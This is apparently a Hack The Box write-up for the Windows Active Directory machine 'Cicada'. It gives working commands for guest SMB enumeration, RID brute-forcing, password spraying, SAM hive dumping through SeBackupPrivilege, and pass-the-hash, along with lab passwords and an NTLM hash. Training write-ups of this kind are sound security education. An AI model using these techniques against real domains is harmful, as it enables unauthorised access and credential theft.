# Cicada — Write-Up

| Field | Details |
|---|---|
| **Machine** | [Cicada](https://app.hackthebox.com/machines/Cicada) |
| **Platform** | [Hack The Box](https://hackthebox.com/) |
| **Operating System** | Windows (Active Directory) |
| **Difficulty** | Easy |
| **Flags** | 2 (user + root) |

---

## Reconnaissance

### Port Enumeration

A full Nmap scan is run to discover active services on the machine:

```bash
nmap -p- -sCV -T5 10.129.231.149 -oN nmap
```



Services found:

| Port | Service | Version |
|---|---|---|
| 53/tcp | domain | Simple DNS Plus |
| 88/tcp | kerberos-sec | Microsoft Windows Kerberos |
| 135/tcp | msrpc | Microsoft Windows RPC |
| 139/tcp | netbios-ssn | Microsoft Windows netbios-ssn |
| 389/tcp | ldap | Microsoft Windows AD LDAP (domain: `cicada.htb`) |
| 445/tcp | microsoft-ds | SMB |
| 464/tcp | kpasswd5 | Kerberos password change |
| 636/tcp | ssl/ldap | LDAPS |
| 3268/tcp | ldap | Global Catalog |
| 3269/tcp | ssl/ldap | Global Catalog (SSL) |
| 5985/tcp | http | WinRM (WSMan) |

This combination of ports (53, 88, 135, 389, 445, 3268) is the classic fingerprint of an Active Directory **Domain Controller**: DNS (53), Kerberos authentication (88), RPC (135), LDAP (389/3268) and file sharing over SMB (445). Port **5985** confirms WinRM is enabled, meaning any valid credentials can be used to get a remote PowerShell session directly.

The hostname `CICADA-DC` is added to `/etc/hosts` to resolve the domain properly:



---

## SMB Enumeration — Null Session

Authentication is first tried with no credentials, which fails. Trying the `guest` account with an empty password succeeds, allowing the shares to be listed:

```bash
crackmapexec smb cicada.htb -u 'guest' -p '' --shares
```



Shares found:

| Share | Permissions | Remark |
|---|---|---|
| ADMIN$ | - | Remote Admin |
| C$ | - | Default share |
| DEV | - | (not accessible with guest) |
| **HR** | READ | *(readable!)* |
| IPC$ | READ | Remote IPC |
| NETLOGON | READ | Logon server share |
| SYSVOL | READ | Logon server share |

The `HR` share is readable with the `guest` account, so it is mounted and its contents downloaded:

```bash
smbclient //cicada.htb/HR
```

Inside, a `Notice from HR.txt` file — a typical onboarding document — is found:



```
Dear new hire!
Welcome to Cicada Corp! [...]
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

This exposes the **default onboarding password** assigned to new employees.

---

## User Enumeration via RPC (lookupsid)

With a null session, RPC can still be queried to brute-force RIDs (Relative Identifiers) and enumerate every account SID in the domain, even without LDAP read access:

```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass
```



The domain SID (`S-1-5-21-917908876-1423158569-3159038727`) and every account/group are returned, including several `SidTypeUser` entries: `john.smoulder`, `sarah.dantelia`, `michael.wrightson`, `david.orelious`, `emily.oscars`.

The output is filtered to keep only user accounts and saved to a wordlist:

```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass \
  | grep 'SidTypeUser' \
  | sed 's/.*\\\(.*\) (SidTypeUser)/\1/' > usuarios.txt
```



---

## Password Spraying

With a user list and a single leaked password, a **password spray** is performed: the same password is tried once against every account, avoiding account lockouts.

```bash
crackmapexec smb cicada.htb -u usuarios.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```



Every account fails except one:

```
[+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

`michael.wrightson` never changed the default onboarding password.

---

## Credential Pivoting — AD User Descriptions

With a valid domain account, the full user list can be queried again, this time including the `description` field — free text some administrators misuse to store notes:

```bash
crackmapexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```



```
cicada.htb\david.orelious    desc: Just in case I forget my password is aRt$Lp#7t*VQ!3
```

The password for `david.orelious` was left in plaintext in the account's own description field.

---

## Share Enumeration with david.orelious

```bash
crackmapexec smb cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```



This account has read access to the **DEV** share, previously inaccessible with `guest`:

```bash
smbclient //cicada.htb/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
```

Inside, `Backup_script.ps1` — an automated PowerShell backup script — is downloaded and read:



```powershell
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
```

Hardcoded credentials for `emily.oscars` are found in plaintext inside the script.

---

## Initial Access — WinRM

Port 5985 (WinRM) allows a remote PowerShell session to be opened directly with valid credentials, similar to SSH on Linux:

```bash
evil-winrm -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -i cicada.htb
```



A shell is obtained as `emily.oscars`, and `user.txt` is read from the Desktop.

---

## Privilege Escalation

### Enumerating Privileges

Current user privileges are checked:

```powershell
whoami /priv
```



```
SeBackupPrivilege             Back up files and directories    Enabled
SeRestorePrivilege            Restore files and directories    Enabled
```

`emily.oscars` has **`SeBackupPrivilege`** enabled — a Windows privilege that allows reading any file on disk, bypassing normal ACLs, as long as it is opened with the `FILE_FLAG_BACKUP_SEMANTICS` flag. This is enough to read the SAM and SYSTEM registry hives, which store local password hashes — including `Administrator`'s.

### Dumping the SAM Database

After copying the `SAM` and `SYSTEM` registry hives locally, they are parsed with Impacket:

```bash
impacket-secretsdump -sam sam -system system local
```



```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```

The local `Administrator` NTLM hash is recovered.

### Pass-the-Hash

Since NTLM authentication is challenge-response based, the plaintext password is not needed — the hash alone is enough to authenticate via **Pass-the-Hash**:

```bash
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```



A shell is obtained as `Administrator`, and `root.txt` is read from the Desktop:



---

## Summary

| Phase | Technique | Tool |
|---|---|---|
| Enumeration | Port Scan | `nmap` |
| SMB enumeration | Null session (`guest`) → readable `HR` share | `crackmapexec`, `smbclient` |
| Credential leak | Default onboarding password in HR document | manual review |
| User enumeration | RID brute-forcing over RPC | `impacket-lookupsid` |
| Initial credential | Password spraying | `crackmapexec` |
| Credential pivoting | Password leaked in AD `description` field | `crackmapexec --users` |
| Credential pivoting | Hardcoded credentials in backup script | `smbclient` |
| Initial access | WinRM | `evil-winrm` |
| Privilege escalation | `SeBackupPrivilege` abuse → SAM/SYSTEM dump | `secretsdump` |
| Privilege escalation | Pass-the-Hash | `evil-winrm` |
